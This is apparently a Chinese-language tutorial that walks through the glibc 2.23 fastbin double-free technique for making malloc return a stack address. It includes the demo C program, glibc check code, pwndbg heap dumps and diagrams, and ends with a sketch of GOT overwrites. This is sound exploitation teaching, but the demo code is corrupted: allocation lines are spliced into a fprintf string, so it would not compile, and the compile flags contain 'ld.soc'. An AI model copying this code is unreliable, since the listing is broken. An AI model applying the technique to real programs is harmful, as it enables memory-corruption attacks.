

环境：Linux x64 -- glibc 2.23

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
	fprintf(stderr, "This file extends on fastbin_dup.c by tricking malloc into\n"
	       "returning a pointer to a controlled location (in this case, the stack).\n");

	unsigned long long stack_var;

	fprintf(stderr, "The address we want malloc() to return is %p.\n", 8+(char *)&stack_var);

	fprintf(stderr, "Allocating 3 buffers.\n");
	int *a = malloc(8);
	int *b = malloc(8);
	int *c = malloc(8);

	fprintf(stderr, "1st malloc(8): %p\n", a);
	fprintf(stderr, "2nd malloc(8): %p\n", b);
	fprintf(stderr, "3rd malloc(8): %p\n", c);

	fprintf(stderr, "Freeing the first one...\n");
	free(a);

	fprintf(stderr, "If we free %p again, things will crash because %p is at the top of the free list.\n", a, a);
	// free(a);

	fprintf(stderr, "So, instead, we'll free %p.\n", b);
	free(b);

	fprintf(stderr, "Now, we can free %p again, since it's not the head of the free list.\n", a);
	free(a);

	fprintf(stderr, "Now the free list has [ %p, %p, %p ]. "
		"We'll now carry out our attack by modifying data at %p.\n", a, b, a, a);
	unsigned long long *d = malloc(8);

	fprintf(stderr, "1st malloc(8): %p\n", d);
	fprintf(stderr, "2nd malloc(8): %p\n", malloc(8));
	fprintf(stderr, "Now the free list has [ %p ].\n", a);
	fprintf(stderr, "Now, we have access to %p while it remains at the head of the free list.\n"
		"so now we are writing a fake free size (in this case, 0x20) to the stack,\n"
		"so that malloc will think there is a free chunk there and agree to\n"
		"return a pointer to it.\n", a);
	stack_var = 0x20;

	fprintf(stderr, "Now, we overwrite the first 8 bytes of the data at %p to point right before the 0x20.\n", a);
	*d = (unsigned long long) (((char*)&stack_var) - sizeof(d));

	fprintf(stderr, "3rd malloc(8)	int *a = malloc(8);
	int *b = malloc(8);
	int *c = malloc(8);
: %p, putting the stack address on the free list\n", malloc(8));
	fprintf(stderr, "4th malloc(8): %p\n", malloc(8));
}
```

编译参数：

```bash
gcc -g -Wl,--rpath=/path/to/libc/lib -Wl,--dynamic-linker=/path/to/libc/ld.soc fastbin_dup_into_stack.c -o fastbin_dup_into_stack
```

编译后 ldd 可以看出来

```
$ ldd fastbin_dup_into_stack 
	linux-vdso.so.1 (0x00007ffe2c1f7000)
	libdl.so.2 => /glibc/x64/2.23/lib/libdl.so.2 (0x00007feaacc0c000)
	libc.so.6 => /glibc/x64/2.23/lib/libc.so.6 (0x00007feaac86b000)
	/glibc/x64/2.23/lib/ld-2.23.so => /usr/lib64/ld-linux-x86-64.so.2 (0x00007feaace17000)
```

我的 libc 是放在 /glibc 的，所以编译出来的 elf 共享库链接都会指向我给定的编译参数（-Wl,--rpath= 和 -Wl,--dynamic-linker=）

可以看到  `stack_var` 变量是放在栈上的

我们要经过一系列操作让 `malloc` 分配到这一个变量的地址

```c
int *a = malloc(8);
int *b = malloc(8);
int *c = malloc(8);
```
在堆上分配了 3 个 chunk，看起来我们分配的是大小为 8 的的内存，其实在 x64 的系统下 ptmalloc 会给我们分配 16 字节的空间（对齐 16 字节），还有 chunk 的 prev_size 和 size 字段要占用 16 字节，所以 ptmalloc 会给我们分配的 **chunk 大小**为 32 字节（最小 chunk）

对于 SIZE_SZ 为 8B 的平台， fast bins 有 7 个 chunk 空闲链表（bin），每个 bin 的 chunk 大小依
次为 32B， 48B， 64B， 80B， 96B， 112B， 128B。Fast bins 可以看着是 LIFO 的栈，使用单向链表实现。

这是 chunk size 和 index 的关系

```c
/* offset 2 to use otherwise unindexable first 2 bins */
#define fastbin_index(sz) \
  ((((unsigned int) (sz)) >> (SIZE_SZ == 8 ? 4 : 3)) - 2)
```

x64 下面 SIZE_SZ 是 8

把 chunk size 右移 4 就是得到对应的 fastbin 的 index

这个 chunk 执行 free 操作后会放入第 1 条 fastbin，（(32 >> 4) - 2 == 0）



可以看到分配了 3 个 chunk 它们的大小都是 0x20 （size 的低 3 个 比特是标志位，真正的 chunk size 是要屏蔽掉 size 的低 3 比特得到的）

现在我们进行

```c
free(a);
free(b);
free(a);
```

让 a chunk 重复放入 fastbin

不能连续 free 同一个 chunk，因为 ptmalloc 会检查

这是 glibc 2.23 的检查

```c
    unsigned int idx = fastbin_index(size); // 获取你 free 的 chunk 对应的那条 fastbin 的 index
    fb = &fastbin (av, idx); // 从分配区获取 idx 对应的 fastbin

    /* Atomically link P to its fastbin: P->FD = *FB; *FB = P;  */
    mchunkptr old = *fb, old2;
    unsigned int old_idx = ~0u;
    do
      {
	/* Check that the top of the bin is not the record we are going to add
	   (i.e., double free).  */
	if (__builtin_expect (old == p, 0)) // 如果 free 的 p chunk 等于 fastbin 的头节点，表明这个 chunk 刚刚已经 free 过了，直接提示 double free（fastbin 是 LIFO 的）
	  {
	    errstr = "double free or corruption (fasttop)";
	    goto errout;
	  }
```

绕过这个检查的方式就是不要连续 free 同一个chunk，只要 fastbin 的头结点不等于现在 free 的节点就不会出错

所以先 free a chunk

得到，free 的 chunk 放入了第 1 条 fastbin，free 的 chunk 就是头节点（使用 pwndbg 的 heap 命令可以看到 各个 chunk 的状态）

```
pwndbg> p main_arena.fastbinsY
$17 = {0x555555559000, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0}

pwndbg> heap
Free chunk (fastbins) | PREV_INUSE
Addr: 0x555555559000
Size: 0x21
fd: 0x00

Allocated chunk | PREV_INUSE
Addr: 0x555555559020
Size: 0x21

Allocated chunk | PREV_INUSE
Addr: 0x555555559040
Size: 0x21

Top chunk | PREV_INUSE
Addr: 0x555555559060
Size: 0x20fa1
```

图形表示

```
              +----------+----------+----------+----------+----------+----------+----------+
     fastbins |          |          |          |          |          |          |          |
              +----+-----+----------+----------+----------+----------+----------+----------+
                   |
      +------------+
      |
      |                   a
      +-------> +---------------------+
                |                     |
                +---------------------+
                |                     |
                +---------------------+
                |                     |
                +---------------------+
                |                     |
                +---------------------+
                |                     |
                |                     |
                |                     |
                |                     |
                +---------------------+

```

 然后 free b chunk 

现在 fastbin 的头节点是 b 所以现在 free a 是不会有任何问题的

```
pwndbg> p main_arena.fastbinsY
$20 = {0x555555559020, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0}

pwndbg> heap
Free chunk (fastbins) | PREV_INUSE
Addr: 0x555555559000
Size: 0x21
fd: 0x00

Free chunk (fastbins) | PREV_INUSE
Addr: 0x555555559020
Size: 0x21
fd: 0x555555559000

Allocated chunk | PREV_INUSE
Addr: 0x555555559040
Size: 0x21

Top chunk | PREV_INUSE
Addr: 0x555555559060
Size: 0x20fa1
```

头节点变成了 b 

```
              +----------+----------+----------+----------+----------+----------+----------+
     fastbins |          |          |          |          |          |          |          |
              +----+-----+----------+----------+----------+----------+----------+----------+
                   |
      +------------+
      |
      |                   b                                       a
      +-------> +---------------------+       +------->+---------------------+
                |                     |       |        |                     |
                +---------------------+       |        +---------------------+
                |                     |       |        |                     |
                +---------------------+       |        +---------------------+
                |                     +-------+        |                     |
                +---------------------+                +---------------------+
                |                     |                |                     |
                +---------------------+                +---------------------+
                |                     |                |                     |
                |                     |                |                     |
                |                     |                |                     |
                |                     |                |                     |
                +---------------------+                +---------------------+

```

再次 free a chunk

```
pwndbg> p main_arena.fastbinsY
$21 = {0x555555559000, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0}

pwndbg> heap
Free chunk (fastbins) | PREV_INUSE
Addr: 0x555555559000
Size: 0x21
fd: 0x555555559020

Free chunk (fastbins) | PREV_INUSE
Addr: 0x555555559020
Size: 0x21
fd: 0x555555559000

Allocated chunk | PREV_INUSE
Addr: 0x555555559040
Size: 0x21

Top chunk | PREV_INUSE
Addr: 0x555555559060
Size: 0x20fa1
```

fastbin 里面就是这样的

用我们的思维来想的话应该是这样的

```
              +----------+----------+----------+----------+----------+----------+----------+
fastbin       |          |          |          |          |          |          |          |
              +----+-----+----------+----------+----------+----------+----------+----------+
                   |
      +------------+
      |
      |                   a                                       b                                      a
      +-------> +---------------------+       +------->+---------------------+       +------->+---------------------+
                |                     |       |        |                     |       |        |                     |
                +---------------------+       |        +---------------------+       |        +---------------------+
                |                     |       |        |                     |       |        |                     |
                +---------------------+       |        +---------------------+       |        +---------------------+
                |                     +-------+        |                     +-------+        |                     |
                +---------------------+                +---------------------+                +---------------------+
                |                     |                |                     |                |                     |
                +---------------------+                +---------------------+                +---------------------+
                |                     |                |                     |                |                     |
                |                     |                |                     |                |                     |
                |                     |                |                     |                |                     |
                |                     |                |                     |                |                     |
                +---------------------+                +---------------------+                +---------------------+

```

但是实际上是这样的

```
              +----------+----------+----------+----------+----------+----------+----------+
fastbin       |          |          |          |          |          |          |          |
              +----+-----+----------+----------+----------+----------+----------+----------+
                   |
      +------------+
      |
      |                   a                                       b
      +-------> +---------------------+<-+    +------->+---------------------+
                |                     |  |    |        |                     |
                +---------------------+  |    |        +---------------------+
                |                     |  +---------+   |                     |
                +---------------------+       |    |   +---------------------+
                |                     +-------+    +---+                     |
                +---------------------+                +---------------------+
                |                     |                |                     |
                +---------------------+                +---------------------+
                |                     |                |                     |
                |                     |                |                     |
                |                     |                |                     |
                |                     |                |                     |
                +---------------------+                +---------------------+
```

可以看到 

```
b->fd == a
a->fd == b
```

我们可以无限次轮流的分配到 b 和 a chunk（只要不破坏 fd），当然我们的目的不是这个，我们的目的是分配到 stack_var 的地址

其实稍微了解过 ptmalloc 的分配机制的人都知道一个 fastbin 的 chunk 在 free 状态下是这样的

```
+---------------------+
|    prev_size        |
+---------------------+
|       size          |
+---------------------+
|        fd           |
+---------------------+
|        bk           |
+---------------------+
|                     |
|                     |
|                     |
|                     |
+---------------------+
```

使用是是这样的，因为一个 chunk 在使用（inuse）的状态下 fd 和 bk 是没有意义的，为了节约内存空间，我们的用户数据都是存在 size 字段往后的内存中

```
+---------------------+
|    prev_size        |
+---------------------+
|       size          |
+---------------------+<-------+ ptr
|                     |
|                     |
|                     |
|                     |
|                     |
|                     |
|                     |
|                     |
+---------------------+

```

ptr 就是 malloc 返回给我们的指针，我们都是从 fd 的位置开始写入我们的数据的

因为我们能把 a chunk 分配出来，然后写入数据，写入数据相当于写入 a chunk 的 fd ，我们现在只要把 a 的 fd 改成我们想要 改写的内存的地址就能通过 malloc 分配到我们想要的地址，从而改写这个地址的内容

但是，并不是任意内存，在 glibc 2.23 下，从 fastbin 里面 malloc chunk 会检查 malloc 的 chunk 的 size 的合法性，也就是说，我们写入的构造的地址 ptr + 8 一定要和 chunk a 的 size 一样

```c
  if ((unsigned long) (nb) <= (unsigned long) (get_max_fast ()))
    {
      idx = fastbin_index (nb);
      mfastbinptr *fb = &fastbin (av, idx);
      mchunkptr pp = *fb;
      do
        {
          victim = pp;
          if (victim == NULL)
            break;
        }
      while ((pp = catomic_compare_and_exchange_val_acq (fb, victim->fd, victim))
             != victim);
      if (victim != 0)
        {
          // 唯一的检查，就是检查 size 的合法性，就是 chunk 的 size 一旦不符合它所位于的 fastbin 要求的 size，就说明 fastbin 被破坏，因为 free 时已经检查合法才能放入这条 fastbin，现在检查不合法，正常情况下这是不可能的
          if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
            {
              errstr = "malloc(): memory corruption (fast)";
            errout:
              malloc_printerr (check_action, errstr, chunk2mem (victim), av);
              return NULL;
            }
          check_remalloced_chunk (av, victim, nb);
          void *p = chunk2mem (victim);
          alloc_perturb (p, bytes);
          return p;
        }
    }
```

现在我们先把 a 分配出来，把 malloc 返回的指针存入 d ，现在 fastbin 的头节点是 b

```c
unsigned long long *d = malloc(8);
```

现在应该是这样的

```
              +----------+----------+----------+----------+----------+----------+----------+
fastbin       |          |          |          |          |          |          |          |
               +-----+---+----------+----------+----------+----------+----------+----------+
                     |
                     +---------------------------------------------------------------+
                                                                                     |
                          a                                       b                  |
                +---------------------+<-+    +------->+---------------------+<------+
                |                     |  |    |        |                     |
                +---------------------+  |    |        +---------------------+
                |                     |  +---------+   |                     |
    d +-------> +---------------------+       |    |   +---------------------+
                |                     +-------+    +---+                     |
                +---------------------+                +---------------------+
                |                     |                |                     |
                +---------------------+                +---------------------+
                |                     |                |                     |
                |                     |                |                     |
                |                     |                |                     |
                |                     |                |                     |
                +---------------------+                +---------------------+

```

然后我们把 stack_var 赋值成 a chunk 一样的 size，为了绕过上面的那个检查

往 stack_var 写入 size 0x20

可以看到 

```
pwndbg> x/10g ((char *)(&stack_var) - 8)
0x7fffffffddb8: 0x000055555555540d      0x0000000000000020
0x7fffffffddc8: 0x0000555555559010      0x0000555555559030
0x7fffffffddd8: 0x0000555555559050      0x0000555555559010
0x7fffffffdde8: 0xf51c145e4487e400      0x0000555555555490
0x7fffffffddf8: 0x00007ffff7855730      0x0000000000000001
```

为什么 -8 ，因为 stack_var 存的是 size ，size 字段的地址 -8 才是 chunk 的地址（x86 下就是 -4）

现在相当于得到这样一个 chunk，size 是 0x20

```
+---------------------+
|  0x000055555555540d |
+---------------------+
|  0x0000000000000020 |
+---------------------+
|                     |
|                     |
|                     |
|                     |
|                     |
|                     |
|                     |
|                     |
+---------------------+
```

然后，往 d 所指的内容写入 ((char *)(&stack_var) - 8) 这个地址，把 ((char *)(&stack_var) - 8)  当成一个 chunk

执行

```
*d = (unsigned long long) (((char*)&stack_var) - sizeof(d));
```

往 d 指向的内存块写入 (((char*)&stack_var) - sizeof(d)) 的地址

```
pwndbg> p main_arena.fastbinsY
$22 = {0x555555559000, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0}

pwndbg> heap
Free chunk (fastbins) | PREV_INUSE
Addr: 0x555555559000
Size: 0x21
fd: 0x7fffffffddb8

Allocated chunk | PREV_INUSE
Addr: 0x555555559020
Size: 0x21

Allocated chunk | PREV_INUSE
Addr: 0x555555559040
Size: 0x21

Top chunk | PREV_INUSE
Addr: 0x555555559060
Size: 0x20fa1
```


现在构造出来这样的 fastbin

```
                                                      +----------+----------+----------+----------+----------+----------+----------+
                                        fastbin       |          |          |          |          |          |          |          |
                                                      +------+---+----------+----------+----------+----------+----------+----------+
                                                             |
                                                             |
                                                             +---------------------------------------------------------------+
                                                                                                                             |
                                                                                                                             |
                                                                                                                             |
                                                                                                                             |
                                                                  a                                       b                  |
+---------------------+<----------+                     +---------------------+<-+             +---------------------+<------+
|  0x000055555555540d |           |                     |                     |  |             |                     |
+---------------------+           |                     +---------------------+  |             +---------------------+
|  0x0000000000000020 |           |                     |                     |  +---------+   |                     |
+---------------------+           |         d +-------> +---------------------+            |   +---------------------+
|                     |           +---------------------+    0x7fffffffddb8   |            +---+                     |
|                     |                                 +---------------------+                +---------------------+
|                     |                                 |                     |                |                     |
|                     |                                 +---------------------+                +---------------------+
|                     |                                 |                     |                |                     |
|                     |                                 |                     |                |                     |
|                     |                                 |                     |                |                     |
|                     |                                 |                     |                |                     |
+---------------------+                                 +---------------------+                +---------------------+

```

头结点是 0x555555559000

```
pwndbg> p main_arena.fastbinsY
$9 = {0x555555559000, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0}

pwndbg> heap
Free chunk (fastbins) | PREV_INUSE
Addr: 0x555555559000
Size: 0x21
fd: 0x7fffffffddb8

Allocated chunk | PREV_INUSE
Addr: 0x555555559020
Size: 0x21

Allocated chunk | PREV_INUSE
Addr: 0x555555559040
Size: 0x21

Top chunk | PREV_INUSE
Addr: 0x555555559060
Size: 0x20fa1
```

只要再 malloc 两次就能得到 栈上的地址

```
3rd malloc(8): 0x555555559010, putting the stack address on the free list
```

可以看到的是现在 第一条 fastbin 的头节点是 0x7fffffffddb8 指向栈上，刚好指向我们构造的那个 chunk

```
pwndbg> p main_arena.fastbinsY
$23 = {0x7fffffffddb8, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0}

pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x555555559000
Size: 0x21

Allocated chunk | PREV_INUSE
Addr: 0x555555559020
Size: 0x21

Allocated chunk | PREV_INUSE
Addr: 0x555555559040
Size: 0x21

Top chunk | PREV_INUSE
Addr: 0x555555559060
Size: 0x20fa1
pwndbg> p/x ((char *)(&stack_var)-8)
$25 = 0x7fffffffddb8
```

最后一次 malloc 就 malloc 出了 0x7fffffffddc8

```
4th malloc(8): 0x7fffffffddc8
```

这时我们就可以往 0x7fffffffddc8 写入任意长度的东西，可以构造 栈溢出 覆盖返回地址之类的操作

常见的操作是，malloc 3 个大小为 0x60 的 chunk，然后把 got 表上的地址当成 chunk，got 表地址解引用一般都是 0x60xxxx 的，然后就能 malloc 到一个 got 表上的地址，实现 got 表地址覆写